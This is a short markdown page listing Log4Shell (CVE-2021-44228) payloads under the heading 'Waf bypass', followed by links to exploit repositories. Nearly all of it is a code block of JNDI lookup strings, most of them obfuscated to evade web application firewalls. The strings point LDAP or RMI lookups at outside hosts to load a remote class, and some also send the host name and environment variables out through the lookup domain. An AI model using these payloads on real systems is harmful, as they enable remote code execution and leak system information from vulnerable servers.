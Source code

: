 ## CVE-2021-44228

### Waf bypass
```

${jndi:ldap://127.0.0.1:1389/ badClassName} 
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
```


### Ref
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml
- https://gist.github.com/ZephrFish/32249cae56693c1e5484888267d07d39
- https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
- https://github.com/jas502n/Log4j2-CVE-2021-44228
